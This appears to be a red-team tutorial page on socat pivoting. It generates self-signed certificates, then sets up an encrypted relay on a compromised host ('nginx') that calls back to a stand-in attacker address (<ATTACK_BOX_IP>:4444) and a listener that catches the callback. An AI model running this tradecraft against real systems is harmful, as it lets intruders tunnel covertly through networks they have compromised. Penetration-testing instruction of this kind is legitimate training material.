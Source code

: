 ## socat

In this section, we will look at some other ways we can use socat for pivoting, omitting a huge amount of the other awesomeness of possibilities.

### Creating certificates

First we have to start off with generating certificates, because we do not like to send out unencrypted traffic.

```
[[ Socat~certs ]]*
mkdir -p tools/socat
cd tools/socat
openssl genrsa -out server.key 2048
openssl req -new -key server.key -x509 -days 365 -out server.crt -subj '/C=IN/ST=State/L=Local/O=Company/OU=IT/CN=foo.bar'
cat server.key server.crt > server.pem
chmod 0600 server.pem server.key
scp server.crt root@nginx:
scp server.pem root@nginx:
```

### Remote port forwarding

Next we will start the remote socat listener.  We listen for a callback on nginx on port 2010, and then we will callback to our attack machine on an encrypted tcp port 4444.

```
[[ Socat~RemoteForward ]]*
ssh root@nginx socat -d -d tcp-listen:2010,fork,reuseaddr openssl-connect:<ATTACK_BOX_IP>:4444,cert=server.pem,cafile=server.crt,verify=0
```

Now we set up an encrypted listener on port 8888, and relay the traffic to out PROOF file.

```
[[ Socat~Listener ]]*
cd tools/socat
socat -d -u openssl-listen:4444,reuseaddr,fork,cert=server.pem,cafile=server.crt open:/tmp/PROOF,create,append
    #if this fails, probably need to kill what else is listening on port 4444
    pkill socat
```

Last, we make a call to the linux target to callback to nginx, then check our proof file to ensure we got the callback.

```
[[ Socat~Call ]]*
lsof -i tcp:4444
cat /tmp/PROOF
callMe.sh linux 80 nginx 2010 tcp
cat /tmp/PROOF
	#Now we have a callback that we caught on nginx
```
